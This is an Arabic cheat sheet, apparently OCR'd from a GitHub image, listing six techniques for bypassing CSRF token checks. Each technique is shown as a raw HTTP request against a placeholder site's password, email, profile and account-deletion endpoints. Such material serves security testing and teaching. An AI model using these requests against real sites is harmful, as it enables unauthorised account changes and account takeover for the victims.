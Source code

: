 ## **طرق تجاوز حماية CSRF**

فيما يلي بعض الطرق التي قد يتم استخدامها لتجاوز حماية **CSRF Tokens** في التطبيقات الضعيفة:

### **🔹 طرق التلاعب بـ CSRF Token**
1. **إزالة قيمة CSRF:** حذف القيمة الخاصة بـ `csrf_token` من الطلب.
   ```http
   POST /change-password HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   
   username=hossamshady&password=123&csrf_token=
   ```

2. **إزالة المفتاح والقيمة معًا:** حذف `csrf_token=VALUE` بالكامل.
   ```http
   POST /change-email HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   
   email=attacker@example.com
   ```

3. **استخدام قيمة فارغة (null):** تعيين `csrf_token=null` في الطلب.
   ```http
   POST /update-profile HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   
   username=hossamshady&csrf_token=null
   ```

### **🔹 التلاعب بطريقة إرسال الطلب (HTTP Method)**
4. **تغيير الطريقة من GET إلى POST وإزالة الهيدر:** بعض التطبيقات قد لا تتعامل بشكل صحيح مع تغيير الطريقة.
   ```http
   POST /delete-account HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   
   action=delete
   ```

5. **تغيير الطريقة من POST إلى GET وإزالة الهيدر:** بعض التطبيقات تقبل نفس الطلب بطريقة GET بدلاً من POST.
   ```http
   GET /delete-account?action=delete HTTP/1.1
   Host: vulnerable-website.com
   ```

### **🔹 طرق استغلال الرموز المخزنة**
6. **استخدام توكن غير مستخدم من حساب آخر:** بعض التطبيقات قد تقبل توكن قديم غير مستخدم.
   ```http
   POST /update-profile HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   
   username=hossamshady&csrf_token=oldtoken123
   ```
